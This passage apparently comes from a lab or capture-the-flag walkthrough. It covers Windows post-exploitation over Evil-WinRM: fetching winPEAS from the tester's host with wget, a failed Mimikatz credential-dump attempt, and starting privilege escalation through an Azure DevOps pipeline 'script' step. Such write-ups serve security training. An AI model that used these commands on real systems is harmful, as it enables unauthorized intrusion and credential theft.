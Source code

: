 ### 7. Enumerate some more
There's not actually that much to enumerate from this user through WinRM, as I already looked through the Program Files, and Web-related files. But I do a bit more anyway, as well as running an enum script (see winpeasout.txt):
```bash
*Evil-WinRM* PS C:\Users\robisl\Pictures\.temp> wget "http://10.10.15.53:8000/winPEAS.exe" -OutFile "WinPEAS.exe"
*Evil-WinRM* PS C:\Users\robisl\Pictures\.temp> ./winPEAS.exe > winpeasout.txt
```
Some interesting points:
- No AV was detected.
- WinPEAs detected possible DLL binary hijacking in the W:\agents\..\AgentServices.exe binary.
- Port 64517 is listening internally.
- AppCmd.exe was found in C:\Windows\system32\inetsrv\appcmd.exe, apparently searching for creds is a good idea.
  
I got excited about there not being AV and tried Mimikatz, but of course since I wasn't local admin this was a fail.
```bash
*Evil-WinRM* PS C:\Users\robisl\Pictures\.temp> ./mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

  .#####.   mimikatz 2.2.0 (x64) #19041 May 19 2020 00:48:59
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # privilege::debug
ERROR kuhl_m_privilege_simple ; RtlAdjustPrivilege (20) c0000061

mimikatz(commandline) # sekurlsa::logonpasswords
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)

mimikatz(commandline) # exit
Bye!
```
Investigating the other points didn't lead to anything either. At this point, the next step is to take these new creds and retrace my steps as the different user where possible. In the devops site, this gets me into a new account, under the full name of "Robin Islip".
Accessible from this account is a project called "PartsUnlimited" with a repository. The difference with this repo is, there does not appear to be any "live" version of it currently. Also, there is no established build pipeline. Creating a new build pipeline can be done a number of different ways and is well documented by Microsoft: https://docs.microsoft.com/en-us/azure/devops/pipelines/yaml-schema?view=azure-devops&tabs=schema%2Cparameter-schema
  
### 8. Escalate privileges
When reading the above documentation and from reading the console output given when I was building the spectral app, I know that the build process obviously executes commands on the server. There can be specified using a "script" param given in the build .yml config.
To get some more info on my privileges before I get too excited about this, I can run a simple "whoami".
```yaml
# Starter pipeline
# Start with a minimal pipeline that you can customize to build and deploy your code.
# Add steps that build, run tests, deploy, and more:
# https://aka.ms/yaml

steps:
- script: whoami
  displayName: 'See who I am'
```